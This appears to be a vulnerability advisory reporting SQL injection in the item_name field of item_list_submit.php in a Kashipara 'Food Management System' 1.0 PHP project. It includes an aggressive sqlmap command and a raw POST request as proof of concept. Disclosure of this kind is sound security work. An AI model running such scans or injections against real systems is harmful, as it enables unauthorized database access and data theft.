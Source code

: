 ###  

### Food Management System SQL Injection Vulnerability

Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: [www.kashipara.com/](http://www.kashipara.com/) 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\item_list_submit.php

![img](https://cdn-images-1.medium.com/max/900/1*TCtJKr4AFRClzaryCOnYkA.png)




 When SQL statements are executed, variables entered by the user are not filtered and validated sufficiently, resulting in malicious SQL statements that can be injected by maliciously constructed inputs.

SQLmap：

![img](https://cdn-images-1.medium.com/max/900/1*OexeA6lGs0T-fPPhXz5aXA.png)





SQLMAP：
python sqlmap.py -r 1.txt — level 5 — risk 3 -p item_name
POC：

```shell
POST /chopstic1/item_list_submit.php HTTP/1.1
Host: localhost
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/item_list.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

item_name=aaa&item_type=3&item_price=11&item_price_dist=12312&item_price_retl=12313&entry_date=04-01-2024&submit=Save
```